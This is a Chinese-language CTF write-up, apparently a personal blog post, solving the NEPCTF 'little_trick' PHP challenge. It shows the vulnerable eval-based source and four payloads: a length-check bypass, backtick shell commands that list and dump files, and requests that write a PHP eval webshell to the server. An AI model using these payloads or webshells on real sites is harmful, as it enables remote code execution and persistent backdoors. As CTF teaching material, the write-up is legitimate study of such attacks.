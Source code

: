 ```yaml
---
title: "2021↑ WP汇总"
date: 2021-05-17T20:24:32+08:00
toc : on
---
```


## 0x01 NEPCTF

周末比较忙，做了两道题。

### little_trick
```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    $nep = $_GET['nep'];
    $len = $_GET['len'];
    if(intval($len)<8 && strlen($nep)<13){
        eval(substr($nep,0,$len));
    }else{
        die('too long!');
    }
?>
```
关于`len`这个点还挺好说的，**-1**就绕了，那么题目就变成了**限制长度为12**的命令执行。方法还挺多的。
#### solution 1
hitcon之前做了**限制长度4或5的命令执行**,4和5都可以了，那12自然不在话下，这里就不过多阐述了。
#### solution 2
事实上这题没那么麻烦，因为我们可控制字符还是比较长的，我们先测试一下:
```demo
?nep=`ls>z`;&len=7
```
访问一下`z`我们发现了
```test
index.php
nep.php
z
```
很明显flag就在`nep.php`里，那只需
```
>cat 
*>z
```
再访问`z`即可。
#### solution3
```demo
?nep=`$_GET[a]`;1&len=-1&a=echo "<?php eval(\$_POST[theoyu]);">theoyu.php
```
#### solution4 
这个是看一位老哥的wp时发现的，确实巧妙。
首先鉴于php的弱类型，`intval`会把字符串数字后给截断，导致比如`7;agawg`识别为7，然后里用?nep=`$len`达到内联执行的效果。
```demo
?nep=`$len`;&len=7;echo "<?php @eval(\$_POST[theoyu])?>" > theoyu.php
```
### 梦里花开牡丹亭
>考察php原生类的利用
